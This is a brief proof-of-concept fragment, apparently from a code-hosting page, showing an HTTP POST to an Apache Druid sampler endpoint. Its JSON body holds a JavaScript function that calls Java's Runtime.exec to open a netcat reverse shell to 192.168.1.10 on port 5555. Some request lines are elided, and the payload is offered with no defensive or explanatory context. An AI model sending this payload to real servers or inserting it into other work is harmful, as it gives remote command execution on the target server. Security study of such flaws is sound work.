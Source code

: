 <languages   />

POC
---

    POST /druid/indexer/v1/sampler HTTP/1.1
    ...
    ...
     {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('nc 192.168.1.10 5555 -e /bin/sh')}"